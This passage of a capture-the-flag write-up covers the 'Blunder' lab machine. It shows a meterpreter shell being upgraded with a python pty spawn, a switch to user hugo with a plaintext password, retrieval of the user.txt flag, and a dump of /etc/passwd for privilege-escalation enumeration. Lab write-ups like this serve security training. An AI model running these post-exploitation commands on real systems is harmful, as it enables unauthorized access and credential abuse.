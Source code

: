 ### User.txt

Since there were no remote connection ports open such as SSH, I needed to switch users in the shell I had. I decided to switch to bash since I wasn't too sure what capabilities meterpreter might have, and my commands seemed limited.

```text
meterpreter > shell
Process 27233 created.
Channel 16 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ ^Z
Background channel 16? [y/N]  n
ls
ls
categories.php  plugins       site.php    tags.php
pages.php       security.php  syslog.php  users.php
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ su hugo
su hugo
Password: Password120

hugo@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cd ~
cd ~
hugo@blunder:~$ cat user.txt
cat user.txt
dcf1f1f3ecde4b372edf165518df8a77
```

Once I got a system shell, I used my standard shell upgrade steps, but it didn't quite work the way I wanted, so I was stuck with a half-functional shell.  Despite this I was able to switch users to `hugo` and collect my `user.txt` proof.  


> Hint: trying to upgrade the functionality of a shell by using **`stty raw -echo`** does not work in a shell gained through meterpreter...


## Path to Power \(Gaining Administrator Access\)

### Enumeration as user `hugo`

```text
hugo@blunder:/var/log$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
```